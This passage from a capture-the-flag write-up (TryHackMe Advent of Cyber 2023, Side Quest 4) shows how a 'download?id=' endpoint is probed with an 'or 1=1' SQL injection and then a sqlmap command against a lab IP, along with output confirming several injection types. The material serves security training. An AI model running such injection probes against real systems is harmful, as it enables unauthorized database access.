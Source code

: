 ![alt text](../../../assets/images/ctf/events/tryhackme-advent-of-cyber-23/2023-12-24-side-quest-4.md/2023-12-24-side-quest-4/image-9.png)

Going even further, we can see an error returned when we go too far up the ID chain. The errors we get show that the "download" view gave an invalid response when it returns empty.

![alt text](../../../assets/images/ctf/events/tryhackme-advent-of-cyber-23/2023-12-24-side-quest-4.md/2023-12-24-side-quest-4/image-10.png)

Testing some basic or 1=1; we can see that another download will still take place, meaning this is valid SQL injection. The result is the id=1 elf which tells us that the query is also a valid type. Let's take it a step deeper.

```bash
sqlmap -u "http://10.10.79.182:8000/download?id=" -p id

[10:23:50] [INFO] GET parameter 'id' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable 
...
[10:24:03] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
...
[10:24:11] [INFO] GET parameter 'id' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
```

